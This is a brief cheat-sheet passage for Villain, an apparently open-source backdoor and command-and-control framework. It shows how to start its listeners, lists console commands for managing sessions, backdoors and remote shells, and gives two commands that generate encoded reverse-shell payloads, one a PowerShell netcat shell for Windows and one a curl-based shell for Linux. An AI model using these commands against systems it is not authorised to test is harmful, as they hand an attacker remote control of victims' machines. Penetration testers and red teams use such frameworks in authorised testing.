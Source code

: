 > https://github.com/t3l3machus/Villain

```console
$ python3 Villain.py -p 8001 -x 8002 -n 8003 -f 8004
```

### Common Commands

```console
Villain > help
Villain > connect
Villain > generate
Villain > siblings
Villain > sessions
Villain > backdoors
Villain > sockets
Villain > shell
Villain > exec
Villain > upload
Villain > alias
Villain > reset
Villain > kill
Villain > id
Villain > clear
Villain > purge
Villain > flee
Villain > exit
```

### Generate Payloads

```console
Villain > generate payload=windows/netcat/powershell_reverse_tcp lhost=<INTERFACE> encode
Villain > generate payload=linux/hoaxshell/sh_curl lhost=<INTERFACE> encode
```
